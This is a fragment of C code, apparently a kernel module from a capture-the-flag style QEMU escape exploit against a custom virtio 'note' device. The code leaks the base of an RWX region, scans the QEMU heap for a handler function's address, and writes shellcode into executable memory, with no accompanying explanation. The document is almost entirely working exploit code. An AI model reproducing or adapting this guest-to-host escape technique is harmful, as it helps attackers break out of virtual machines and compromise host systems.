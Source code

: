 ```c
    request_buff->addr = virt_to_phys(data2); // Example address
    request_buff->op = READ;   // Example operation
    send_request(note_info, request_buff);
    rwx_base = *(uint64_t *)data2;
    printk(KERN_DEBUG "rwx base leaked:  0x%llx\n", rwx_base);


	/* search for function virtio_note_handle_req on heap */
	target = qemu_base + 0x69f0d0;
	offset = 0;
    while (1)
    {
		*(uint64_t *)(data+0x10) = (heap_addr + offset);
		// Prepare a WRITE request
		request_buff->idx = 19;      // Example index
		request_buff->addr = virt_to_phys(data); // Example address
		request_buff->op = WRITE;   // Example operation
		send_request(note_info, request_buff);

		// read second heap addr
		request_buff->idx = 32;      // Example index
		request_buff->addr = virt_to_phys(data2); // Example address
		request_buff->op = READ;   // Example operation
		send_request(note_info, request_buff);
		if (*(uint64_t *)data2 == target)
			break;
		offset += 8;
	}
    printk(KERN_DEBUG "target found at:  0x%llx\n", heap_addr+offset);

	/* write our shellcode in rwx zone */
    shellcode_offset = 0x3ffe000;
    // rwx zone to copy shellcode
    *(uint64_t *)(data+0x10) = (rwx_base+shellcode_offset);
    // Prepare a WRITE request
    request_buff->idx = 19;      // Example index
    request_buff->addr = virt_to_phys(data); // Example address
    request_buff->op = WRITE;   // Example operation
    send_request(note_info, request_buff);

	memcpy(data2,shellc,64);
    // Example initialization of request
    request_buff->idx = 32;      // Example index
    request_buff->addr = virt_to_phys(data2); // Example address
    request_buff->op = WRITE;   // Example operation
    send_request(note_info, request_buff);

    // rwx zone to copy shellcode
    *(uint64_t *)(data+0x10) = (rwx_base+shellcode_offset+0x40);
    // Prepare a WRITE request
    request_buff->idx = 19;      // Example index
    request_buff->addr = virt_to_phys(data); // Example address
    request_buff->op = WRITE;   // Example operation
    send_request(note_info, request_buff);

	memcpy(data2,&shellc[64],sizeof(shellc)-64);
    // Example initialization of request
    request_buff->idx = 32;      // Example index
    request_buff->addr = virt_to_phys(data2); // Example address
    request_buff->op = WRITE;   // Example operation
    send_request(note_info, request_buff);

    printk(KERN_DEBUG "shellcode copied at:  0x%llx\n", rwx_base+shellcode_offset);
```